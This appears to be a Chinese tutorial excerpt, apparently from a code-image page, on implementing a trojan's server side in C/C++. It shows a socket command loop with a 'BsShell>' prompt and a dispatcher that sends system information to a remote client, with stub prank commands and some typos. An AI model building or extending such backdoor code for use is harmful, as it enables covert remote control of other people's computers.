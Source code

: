 ## 木马服务器端的实现
方便起见在木马中加入帮助系统，也就是在输入指定命令后，客户端会把命令发给我们。
```
define HELPMSG "help - Show Help Menu \r\n" \
			   "getsysinfo - Get System Information" \
			   "open - Open The CDRom \r\n" \
			   "swap - Swap Mouse Button \r\n" \
			   "restore - Restore Mouse Button \r\n" \       
			   "exit - Quit BsShell"
```

木马的主体形式是接收命令，其实就是让recv()函数接收字符串，根据接收的字符串进行匹配，从而完成相应的动作。代码大体形式如下：
```
while (True) {
	//发送一个命令提示
	send(clientSock, "BsShell>", strlen("BdShell>") + sizeof(char), 0);
	char buff[MAXBYTE] = { 0 };

	//接收客户端发来的命令
	recv(clientSock, buff, MAXBYTE, 0);
	if (Istrcmp(buff, "exit")) { break; }

	//分发命令
	BOOL bRet = Dispatch(clientSock, buff);
	if (bRet == FALSE) {
		send(clientSock, "Command Unsuccessfully!", strlen(Command Unsuccessfully!) + sizeof(char), 0);
	}
}
```

分发命令的部分如下：
```c++:n
BOOL Dispatch(SOCKET sock, char* szCmd) {
	BOOL bRet = FALSE;

	//根据不同命令完成不同功能

	if (!strcmp(szCmd, "help")) {
		send(sock, HELPMSG, strlen(HELPMSG) + sizeof(char), 0);
		bRet = TRUE;
	}
	//获取系统信息
	else if (!strcmp(szCmd, "getsysinfo")) {
		SYS_INFO SysInfo = { 0 };
		GetSysInfo(&SysInfo);
		int n = send(sock, (const char*)&SysInfo, sizeof(SYS_INFO), 0);
		bRet = TRUE;
	}
	//打开光驱
	else if (!strcmp(szCmd, "open")) {

	}
	//关闭光驱
	else if (!strcmp(szCmd, "close")) {
	
	}
	//交换鼠标左右键功能
	else if (!strcmp(szCmd, "swap")) {}
	//恢复鼠标左右键功能
	else if(!strcmp(szCmd,"restore")){}
	else {}
	return bRet;
}
```
